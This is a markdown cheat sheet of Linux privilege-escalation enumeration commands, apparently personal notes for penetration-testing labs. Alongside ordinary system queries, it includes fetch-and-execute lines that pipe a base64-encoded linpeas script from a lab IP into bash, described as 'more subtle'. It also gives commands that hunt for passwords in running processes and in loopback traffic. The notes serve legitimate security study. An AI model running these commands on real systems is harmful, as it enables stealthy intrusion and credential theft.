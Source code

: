 # Linux Enumeration

## Automatic Enumeration

### unix-privesc-check
On Kali host:
```bash
cp /usr/bin/unix-privesc-check .
```
```bash
python3 -m http.server 80
```
On target machine:
```bash
wget http://<our IP>/unix-privesc-check
```
```bash
chmod +x unix-privesc-check
```
```bash
unix-privesc-check standard > output.txt
```
The `output.txt` file is meaty, and in standard mode it isn't complete, but it's a good start. The most obvious thing to do immediately is:
```bash
cat output.txt | grep -A 10 writable
```
This is just a quick start. Worth going over the file carefully if nothing immediately jumps out.

### linpeas

Nb. well worth repeating these steps but instead starting with:
```bash
cp /usr/share/peass/linpeas/linpeas.sh .
```
Or more subtle:
```bash
curl -s http://192.168.45.x/linpeat_f_b64.sh | base64 -d | bash
```
Or if you don't have cURL:
```bash
wget -qO- http://192.168.45.x/linpeat_f_b64.sh | base64 -d | bash
```

### pspy

For enumerating file and command line event. Handy if there are creds being entered remotely via a cronjob as plaintext commandline params:
```bash
./pspy32 -pf -i 1000
```

## Manual Enumeration
For fine grained/specific enumeration items see the glossary below. Hopefully a standard privesc check as detailed above should be sufficient, but in case it isn't.

### Misc.
Get context about the current user:
```bash
id
```
Enumerate users on the machine:
```bash
cat /etc/passwd
```
Enumerate the functional role of the machine:
```bash
hostname
```
OS and system version enumeration:
```bash
uname -a
```
alternatives to the same effect:
```bash
cat /etc/os-release
```
```bash
cat /etc/issue
```
Inspect environment variables:
```bash
env
```
Check the .bashrc:
```bash
cat ~/.bashrc
```

### Processes
List running processes:
```bash
ps aux
```
Search running processes for foolishness:
```bash
watch -n 1 "ps -aux | grep pass"
```

### Networking
TCP/IP information:
```bash
ifconfig a
```
Or if you happen to be prodding at a RHEL or Arch machine for some god forsaken reason:
```bash
ip a
```
Network routing information on Debian based systems:
```bash
routel 
```
or if that fails:
```bash
route
```
To see active network connections:
```bash
ss -ntplu
```
The `iptables` command is unlikely to be available to our peon-tier user by default on account of it being an admin privilege by default. However we may still be able to view some config via:
```bash
cat /etc/iptables/rules.v4
```
Some basic packet capture:
```bash
sudo tcpdump -i lo -A | grep "pass"
```
### Cronjobs
Enumerate cron jobs:
```bash
ls -lah /etc/cron*
```
and the current users scheduled jobs:
```bash
crontab -l
```
Jobs running as root will not appear when querying like this, for that run as root (although its hard to imagine when we might want to do this if we already have root...):
```bash
sudo crontab -l
```
Inspect the cron logs:
```bash
grep "CRON" /var/log/syslog
```

### Packages, Modules & Disks
Packages installed via `dpkg` (Debian package manager):
```bash
dpkg -l
```
List drives mounted at boot time:
```bash
cat /etc/fstab
```
in addition `mount` should tell us everything that's currently mounted:
```bash
mount
```
Available disks:
```bash
lsblk
```
Loaded kernel modules:
```bash
lsmod
```
For more info on a kernel module that we've taken an interest in:
```bash
/sbin/modinfo <intriguing module>
```

### File permissions
```bash
ls -l
```
Find every directory the current user can write to:
```bash
find / -writable -type d 2>/dev/null
```
Find SUID marked binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```
